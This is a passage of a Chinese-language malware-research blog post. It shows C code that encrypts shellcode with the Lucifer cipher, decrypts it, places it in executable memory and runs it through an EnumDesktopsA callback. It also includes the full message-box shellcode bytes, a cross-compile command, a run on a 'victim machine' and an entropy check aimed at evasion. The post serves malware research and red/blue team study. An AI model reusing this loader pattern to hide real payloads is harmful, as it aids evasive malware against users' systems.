  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (block_size - my_payload_len % block_size) % 
  block_size;

  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs (0x90)
  memcpy(padded, my_payload, my_payload_len);

  printf("original payload: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // encrypt the payload
  lucifer_encrypt_payload(padded, pad_len, key);

  printf("encrypted payload: ");
  for (int i = 0; i < pad_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // decrypt the payload
  lucifer_decrypt_payload(padded, pad_len, key);

  printf("decrypted payload: ");
  for (int i = 0; i < my_payload_len; i++) {
  printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;

```

和往常一样，这里我使用的是 meow-meow 消息框载荷：

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0,
  0x0, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65,
  0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52, 0x18, 0x3e, 0x48, 0x8b,
  0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
  0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
  0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
  0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
  0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
  0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
  0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
  0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
  0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
  0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

此外，这段代码正确地维护了填充方案和载荷长度。

### 演示 2

我们来看看实际效果。先编译它（在我的 Linux 机器上）：

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}

然后，在受害者机器上运行它（我的环境是 Windows 11 x64）：

```powershell
.\hack2.exe
```

{width="80%"}

{width="80%"}

如你所见，一切运行完美！=..=

计算香农熵：

```bash
python3 entropy.py -f hack2.exe
```

{width="80%"}

我们的载荷位于 `.text` 节。

如你所知，我在研究和这个博客中看过的许多加密算法都采用了 Feistel 网络。

### 密码分析

Biham 和 Shamir（E. Biham 和 A. Shamir，“Differential Cryptanalysis of Snefru, Khafre, REDOC-II, LOKI, and Lucifer”，Advances in Cryptology-CRYPTO '91 Proceedings，1992，第 156--171 页；以及 E. Biham 和 A. Shamir，Differential Cryptanalysis of the Data Encryption Standard，Springer-Verlag，1993）证明，Lucifer 的初始版本（使用 32 位分组和 8 轮）易受差分密码分析攻击，需要 40 个选择明文和 2^29 步计算；同样地，该攻击也能攻破使用 128 位分组和 8 轮的 Lucifer，需要 60 个选择明文和 2^53 步计算。一次差分密码分析攻击可以用 24 个选择明文在 2^21 步内攻破 18 轮、128 位的 Lucifer。

我希望这篇文章对恶意软件研究人员、C/C++ 程序员有所帮助，能让蓝队成员了解这个有趣的加密技巧，并为红队成员的武器库增添一件武器。

[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-10-20-malware-cryptography-33)  
[E. Biham and A. Shamir, "Differential Cryptanalysis of Snefru, Khafre, REDOC–II, LOKI, and Lucifer," Advances in Cryptology-CRYPTO ’91 Proceedings, 1992, pp. 156–171](https://link.springer.com/chapter/10.1007/3-540-46766-1_11)
